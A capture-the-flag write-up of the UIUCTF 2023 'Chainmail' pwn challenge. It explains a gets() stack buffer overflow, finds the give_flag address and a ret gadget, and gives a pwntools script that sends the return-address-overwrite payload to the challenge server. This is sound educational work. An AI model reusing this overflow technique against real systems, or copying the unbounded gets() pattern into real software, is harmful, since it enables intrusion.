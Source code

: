 # Chainmail - uiuctf 2023
## writeup by p3qch

We are greeted by two files, an ELF executable with the following properties:
```
$ checksec ./chal
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
And a C source file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void give_flag() {
    FILE *f = fopen("/flag.txt", "r");
    if (f != NULL) {
        char c;
        while ((c = fgetc(f)) != EOF) {
            putchar(c);
        }
    }
    else {
        printf("Flag not found!\n");
    }
    fclose(f);
}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char name[64];
    printf("Hello, welcome to the chain email generator! Please give the name of a recipient: ");
    gets(name);
    printf("Okay, here's your newly generated chainmail message!\n\nHello %s,\nHave you heard the news??? Send this email to 10 friends or else you'll have bad luck!\n\nYour friend,\nJim\n", name);
    return 0;
}
```

If we look closely at main, we see the following line:
```c
    gets(name);
```
It's gets! The function that reads from stdin, without any length specification, meaning that we could write as much as we want to the stack.
Let's take a look at the way mains stack frame looks:
```
|---------------------|
| Saved RIP (8 bytes) |
|---------------------|
| Saved RBP (8 bytes) |
|---------------------|
|                     |
|      name buf       |
|     (64 bytes)      |
|                     |
|---------------------|
```
But what will we overwrite? With what? Obviously we'll overwrite saved RIP with the not changing (cuz there's no PIE) address of the functions give_flag()!
let's check the functions address:
```sh
$ gdb ./chal
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010b0  putchar@plt
0x00000000004010c0  puts@plt
0x00000000004010d0  fclose@plt
0x00000000004010e0  printf@plt
0x00000000004010f0  fgetc@plt
0x0000000000401100  gets@plt
0x0000000000401110  setvbuf@plt
0x0000000000401120  fopen@plt
0x0000000000401130  _start
0x0000000000401160  _dl_relocate_static_pie
0x0000000000401170  deregister_tm_clones
0x00000000004011a0  register_tm_clones
0x00000000004011e0  __do_global_dtors_aux
0x0000000000401210  frame_dummy
0x0000000000401216  give_flag
0x0000000000401288  main
0x000000000040133c  _fini
```
We see that the give_flag  function is at: `0x401216`. 
So to build our payload we need: 
- 64 bytes over buf
- 8 bytes over saved 
- And most importantly, the address of give_flag, packed in little endian (least significant byte goes first) and 64 bits.

let's try this:
```sh
$ python2 -c "print 'A' * 64 + 'B'*8 + '\x16\x12\x40\x00\x00\x00\x00\x00'" | ./chal
Hello, welcome to the chain email generator! Please give the name of a recipient: Okay, here's your newly generated chainmail message!

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB@,
Have you heard the news??? Send this email to 10 friends or else you'll have bad luck!

Your friend,
Jim
flag{flag}
```
We get a flag! Let's try this on remote:
```sh
$ python2 -c "print 'A' * 64 + 'B'*8 + '\x16\x12\x40\x00\x00\x00\x00\x00'" | nc chainmail.chal.uiuc.tf 1337
Hello, welcome to the chain email generator! Please give the name of a recipient: Okay, here's your newly generated chainmail message!

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB@,
Have you heard the news??? Send this email to 10 friends or else you'll have bad luck!

Your friend,
Jim
```
hmmm weird we didn't get a flag. Last time something like this happened to me it was the MOVAPS issue. most likely fopen uses this instructions, and this instructions works only if the stack is aligned properly, but we misaligned it by putting our evil payload onto it. Let's fix it by adding something to the stack, but what can we add? let's add another `ret` address before our get_flag address. So that before we jump to get flag, we jump to another return and alighn the stack.
```sh
$ ROPgadget --binary chal --only  'ret'
Gadgets information
============================================================
0x000000000040101a : ret
```
So we see that there is a ret at `0x40101a`, lets pack it to our payload, and actually make a python script to make it a little easier to read:
```py
from pwn import *

if not args.REMOTE:
    target = process("./chal")
else:
    target = remote("chainmail.chal.uiuc.tf", 1337)

payload = b"A" * 64 # overwrite buffer
payload += b"B" * 8 # overwrite saved rbp
payload += p64(0x40101a) # align stack (this is a RET instruction address)
payload += p64(0x401216) # overwrite saved rip to give_flag

target.sendline(payload)
target.interactive()
```
Lets try this:

```
$ python3 ./solve.py REMOTE
[+] Opening connection to chainmail.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
== proof-of-work: disabled ==
Hello, welcome to the chain email generator! Please give the name of a recipient: Okay, here's your newly generated chainmail message!

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB\x1a\x10@,
Have you heard the news??? Send this email to 10 friends or else you'll have bad luck!

Your friend,
Jim
uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}
```
And we get a flag! Hooray!
